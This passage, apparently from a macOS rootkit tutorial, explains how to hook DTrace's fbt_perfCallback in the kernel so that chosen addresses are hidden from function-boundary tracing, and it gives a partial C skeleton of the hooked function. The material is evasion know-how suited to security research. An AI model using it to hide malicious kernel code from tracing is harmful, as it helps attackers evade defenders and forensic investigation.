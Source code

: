fbt_invop finds probed address information stored in fbt_probetab array and
enters DTrace probe code. The return value that is needed for the emulation is
stored inside the structure.
To fiddle with DTrace we can emulate this function or create a modified
fbt_perfCallback, adding conditions to hide our own addresses. It contains no
private symbols so this is an easy task.

Next, is a potential implementation of a hooked fbt_perfCallback function.
Please notice that all the necessary code is not implemented. It is a mix of
code and "algorithms".

kern_return_t
fbt_perfCallback_hooked(int trapno, x86_saved_state_t *tagged_regs,
                        uintptr_t *lo_spp, __unused int unused2)
{
    kern_return_t retval = KERN_FAILURE;
    x86_saved_state64_t *saved_state = saved_state64(tagged_regs);
    
    if (FBT_EXCEPTION_CODE == trapno && !IS_USER_TRAP(saved_state)) 
    {
        uintptr_t addr = saved_state->isf.rip;
        // XXX: verify if we want to hide this address
        //      remember that addr here is where illegal instruction occurred
        //      so our list must contain that info
        int addr_is_to_hide = hide_from_fbt(addr); // implement this
        if (addr_is_to_hide) 
        {
            // XXX: find fbt_probetab symbol here so we can use it next
        
            // and now get the search starting point
            fbt_probe_t *fbt = fbt_probetab[FBT_ADDR2NDX(addr)];
            // find the structure for current addr
            for (; fbt != NULL; fbt = fbt->fbtp_hashnext) 
            {
                if ((uintptr_t)fbt->fbtp_patchpoint == addr) 
                {
                    // XXX: emulate all code inside fbt_perfCallback here
                    // except call to dtrace_invop()
                    // this is the code that is inside the first IF conditions
                    // in the original function
                    // a couple of symbols might need to be solved, easy!
                }
            }
            // add fail case here ? shouldn't be necessary unless a big f*ckup
            // occurs inside DTrace structures
        }
        // nothing to hide so call the original function
        else
        {   
            kern_return_t ret = KERN_FAILURE;
            // XXX: don't forget we need to solve this symbol
            ret = fbt_perfCallback(trapno, tagged-regs, lo_spp, unused2);
            return ret;
        }
    }
    return retval;
}
